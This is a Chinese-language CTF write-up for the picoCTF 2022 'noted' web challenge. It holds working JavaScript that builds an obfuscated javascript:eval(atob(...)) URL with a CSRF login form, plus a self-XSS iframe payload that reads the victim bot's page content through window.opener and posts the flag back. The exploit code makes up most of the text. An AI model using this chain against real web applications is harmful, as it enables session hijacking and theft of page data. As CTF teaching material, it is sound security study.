 另外注意一下report.js中并没有对我们的url加waf，所以`javascript:alert(1)`之类的url也能在`about:blank`上xss 或者开新的window构成csrf，比如像`javascript:eval(atob(xxxx))`这样操作js内容

关于flag的回显，由于bot不出网，我们考虑创建一个账号，将flag用self-xss+iframe的方式传回来

提交url，用`javascript:`形式的url 包含一个csrf的表单，强制登入我们的账号

```js
const csrf = `
<form name=frm action='http://0.0.0.0:8080/login' method=post>
<input name=username value=supernene>
<input name=password value=supernene>
</form>
`	// 登入我们的已知账户
const js = `
win = window.open('', '')
win.document.body.innerHTML = atob('${btoa(csrf)}')
win.document.frm.submit()
location.href = 'http://0.0.0.0:8080'
`	// 在about:blank页面操作
const url = `javascript:eval(atob('${btoa(js)}'))`
console.log(url)
```

登入的我们的账号中含有如下的self-xss payload，读取之前bot页面中的flag，

```html
<iframe src="/new" id=frm>
</iframe>
<script>
const flag = window.opener.document.body.textContent
frm.onload=()=>{
	frm.onload=null
	const newfrm = frm.contentDocument.forms[0]	// 确保new tab
	newfrm.title.value = 'FLAG'
	newfrm.content.value = flag
	newfrm.submit()
}
</script>
```

参考：[wp1](https://blog.maple3142.net/2022/03/29/picoctf-2022-writeups/#noted)  |  [wp2](https://github.com/dtreplin/ctf-writeups/blob/main/picoCTF_2022_web_exploitation_noted.md)

